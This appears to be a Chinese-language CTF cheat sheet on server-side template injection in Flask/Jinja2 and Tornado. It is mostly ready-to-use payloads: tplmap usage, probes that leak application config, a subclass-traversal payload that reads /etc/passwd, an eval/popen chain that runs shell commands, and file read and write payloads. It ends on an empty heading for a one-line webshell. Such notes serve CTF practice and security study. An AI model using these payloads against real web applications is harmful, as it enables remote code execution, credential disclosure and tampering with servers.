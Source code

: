    ```shell
   # 使用tplmap.py测试
   python ./tplmap.py -u ‘xxxxxx’
   ```

   http://111.198.29.45:42611/{{7+7}}

   若返回：URL http://111.198.29.45:59331/14 not found，则说明执行了{{}}内的代码

2. 常用的模板注入

   ```
   ?name={{config}}
   ?name={{config.items()}}
   ?name={{person.secret}}
   ?name={{self.__dict__}}
   ?name={{url_for.__globals__['current_app'].config}}
   ?name={{get_flashed_messages.__globals__['current_app'].config}}
   ```

3. {{ [].__class__.__base__.__subclasses__()[40]('/etc/passwd').read() }}  读取密码

4. 执行代码

   ```python
   {% for c in [].__class__.__base__.__subclasses__() %}
   {% if c.__name__ == 'catch_warnings' %}
     {% for b in c.__init__.__globals__.values() %}  
     {% if b.__class__ == {}.__class__ %}         //遍历基类 找到eval函数
       {% if 'eval' in b.keys() %}    //找到了
         {{ b['eval']('__import__("os").popen("ls").read()') }}  //导入cmd 执行popen里的命令 read读出数据
       {% endif %}
     {% endif %}
     {% endfor %}
   {% endif %}
   {% endfor %}
   ```

5. 读文件

   ```python
   ().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()
   ```

6. 写文件

   ```python
    ().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')
   ```


## Tornado框架

1. 查看应用设置

   ```
   {{handler.settings}}
   ```

# 一句话木马
